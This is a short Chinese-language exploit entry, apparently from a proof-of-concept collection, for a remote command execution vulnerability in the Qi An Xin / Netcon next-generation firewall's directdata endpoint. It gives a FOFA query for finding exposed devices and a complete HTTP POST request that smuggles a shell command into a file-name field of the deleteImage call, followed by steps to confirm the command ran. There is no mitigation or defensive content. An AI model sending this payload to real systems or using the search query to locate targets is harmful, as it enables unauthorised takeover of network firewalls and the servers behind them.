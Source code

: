## 奇安信网康下一代防火墙directdata存在远程命令执行漏洞

奇安信网康下一代防火墙（NGFW）是网康科技推出的一款可全面应对网络威胁的高性能应用层防火墙，存在远程命令执行，通过漏洞攻击者可以获取服务器权限。

## fofa
```
app="网康下一代防火墙"
```

## poc
```
POST /directdata/direct/router HTTP/1.1
Host: 
Connection: close
Content-Length: 160
Upgrade-Insecure-Requests: 1

{"action":"SSLVPN_Resource","method":"deleteImage","data":[{"data":["/var/www/html/d.txt;id >/var/www/html/test.txt"]}],"type":"rpc","tid":17,"f8839p7rqtj":"="}
```

![5655f30db3f659f378796e6839e606ca](../../images/68a44096-0939-4fd7-971f-b73cde261000.png)

然后访问https://xxxx.xxx/test.txt

发现，命令已经成功执行
![9e52fb8cbdc1cb4fcd479c2a56eb05c8](../../images/5227040a-13f1-4b7c-9d04-f22cbfd34404.png)

